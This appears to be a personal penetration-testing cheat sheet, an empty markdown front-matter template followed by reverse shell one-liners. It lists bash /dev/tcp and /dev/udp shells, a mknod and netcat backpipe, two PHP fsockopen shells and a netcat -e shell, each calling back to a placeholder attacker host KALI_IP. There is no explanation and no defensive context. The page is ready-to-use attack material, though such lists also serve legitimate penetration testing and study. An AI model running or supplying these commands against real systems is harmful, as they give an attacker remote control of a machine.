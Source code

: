 ```yaml
---
title: 
description: 
draft: 
tags: 
date:
---
```


## Bash

```bash
sh -i >& /dev/tcp/KALI_IP/9999 0>&1
```

```bash
sh -i >& /dev/udp/KALI_IP/9999 0>&1
```

## mknod

```bash
mknod backpipe p; nc KALI_IP 9999 0<backpipe | /bin/bash 1>backpipe
```
>[!tip]
>This reverse shell typically works well when bash reverse shells aren't available.
## PHP

#### Command line:
```bash
php -r '$sock=fsockopen("KALI_IP",4242);exec("/bin/sh -i <&3 >&3 2>&3");'
```

```bash
php -r '$sock=fsockopen("KALI_IP",9001);shell_exec("sh <&3 >&3 2>&3");'
```

## Netcat
```bash
nc KALI_IP 9001 -e sh
```



